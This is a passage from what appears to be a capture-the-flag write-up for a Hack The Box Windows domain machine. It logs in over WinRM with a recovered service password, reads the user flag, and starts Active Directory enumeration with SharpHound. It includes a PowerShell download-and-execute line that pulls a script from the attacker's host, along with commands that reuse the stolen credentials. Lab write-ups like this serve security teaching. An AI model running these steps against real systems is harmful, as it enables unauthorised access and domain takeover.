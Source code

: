 

I see the password is "s3rvice".

### WinRM

I'll give these credentials a try with
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm), and it works:



    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                             
    Info: Starting Evil-WinRM shell v1.7

    Info: Establishing connection to remote endpoint
                                                             
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents>



From here I can grab `user.txt`:



    *Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
    e5e4e47a************************     



## Privesc to Administrator

### Enumeration

#### SharpHound

With my shell, I'll run
[SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors)
to collect data for
[BloodHound](https://github.com/BloodHoundAD/BloodHound). I've got a
copy of Bloodhound on my machine (you can use
`git clone https://github.com/BloodHoundAD/BloodHound.git` if you
don't). I'll start a Python webserver in the `Ingestors` directory, and
then load it in to my current session:



    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")



Now I'll invoke it:



    *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice



The result is a zip file:

